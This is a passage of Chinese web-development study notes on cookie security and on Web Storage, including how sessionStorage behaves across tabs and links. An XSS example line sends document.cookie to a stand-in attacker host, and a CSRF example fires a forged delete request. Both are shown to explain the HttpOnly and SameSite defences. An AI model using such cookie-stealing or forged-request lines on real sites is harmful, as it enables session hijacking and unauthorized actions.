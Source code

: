      
   
3. 存在安全问题

   - 跨站脚本攻击（XSS）

     ```javascript
     (new Image()).src = "http://www.evil-domain.com/steal-cookie.php?cookie=" + document.cookie;
     ```

     使用HttpOnly属性可防止通过 JavaScript 访问 cookie 值。

     > HttpOnly是包含在Set-Cookie HTTP响应头文件中的附加标志。生成cookie时使用HttpOnly标志有助于降低客户端脚本访问受保护cookie的风险。
   
   
      - 跨站请求伪造（CSRF）
   
        ```javascript
        (new Image()).src="https://www.example.com/index.php?action=delete&id=123";
        ```
        
        用于敏感信息（例如指示身份验证）的 Cookie 的生存期应较短，并且 `SameSite` 属性设置为`Strict` 或 `Lax`，阻止第三方cookie。
        
        > CSRF（Cross-site request forgery）跨站请求伪造：恶意网站可以设法伪造带有正确 Cookie 的 HTTP 请求。
   

## Web Storage

- 使用**键值对**存储数据，存在数据类型限制（字符串、数字等）


- 特定于页面的协议，每个域都有一个单独的数据存储区。

**用法：**

```javascript
Storage.setItem(key,value) //保存数据，value会转为字符串
Storage.getItem(key)     //获取数据
Storage.remove(key)      //按键删除数据
Storage.key(index)       //获取Storage里序号为index的数据的键
Storage.clear()          //删除所有
```


### sessionStorage

1. 页面会话在浏览器打开期间一直保持，并且重新加载（浏览器刷新按钮触发，包括`window.location.reload()`）仍会保持原来的sessionStorage。

2. 一个浏览器Tag对应一个sessionStorage，同一个url在不同Tag的sessionStorage不共享，关闭Tag则清除对应的sessionStorage。**在浏览器程序没有结束的前提下**，可通过打开浏览器历史记录恢复相应页面的sessionStorage。

3. 在当前页面通过`<a target='_blank'/>`**打开**新的页面，则新的页面中的sessionStorage和原页面**没有关系**；

   通过以下方式**打开**新页面，则新页面**复制**旧页面的sessionStorage。

   ```javascript
   <a href='' target='_blank' rel="opener"/> //rel规定当前文档与被链接文档之间的关系
   window.open()
   ```
   
   在当前通过`<a href=''/>`页面**跳转**新的页面，则新旧页面**共享**sessionStorage（页面间跳转通信）。
   
